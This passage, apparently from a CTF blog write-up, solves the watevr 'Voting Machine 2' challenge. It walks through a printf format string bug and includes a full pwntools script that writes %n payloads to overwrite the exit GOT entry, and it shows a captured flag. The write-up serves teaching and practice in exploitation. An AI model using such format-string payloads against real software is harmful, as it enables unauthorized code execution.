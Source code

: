 The flag is - **watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}**

&nbsp;  

## Voting Machine 2

File: [kamikaze2](/files/watevr_files/kamikaze2)

This binary had a format string vulnerability, since printf is being used without any format specifiers.

![](/images/watevr_images/vm2_1.png)

I played around with the input for a while, realised that there was an alignment issue (of 2), when trying to get my input onto the stack variables. After this, we can see our input string at the 8th output (stack output due to format string bug) when supplied with `%x`s. The objective here is to replace the exit call at the end of main (FUN_084207fb) with a function that reads the flag (FUN_08420736).

After this, it becomes just a matter of calculating offsets. We place the return address on the stack in two parts, and the offsets are calculated accordingly. I could go in depth regarding the offsets, but it is a pretty simple (not easy) process. If you have doubts, leave a comment, I will explain it.

The final exploit code is -

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze2")
p = remote("13.53.125.206", 50000)

offset = 50
func = 0x08420736
main = 0x084207fb
exit_plt = 0x08422024

def pad(s):
	return s+"X"*(offset-len(s))

exploit = ""
exploit += "AA"
exploit += p32(exit_plt)
exploit += p32(exit_plt+2)
exploit += "BBBBCCCC"
exploit += "%8$1828x"
exploit += "%8$n"
exploit += "%65804x"
exploit += "%9$n"

print(pad(exploit))
payload = pad(exploit)

p.recvuntil(': ')

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(pad(exploit))

p.interactive()
```
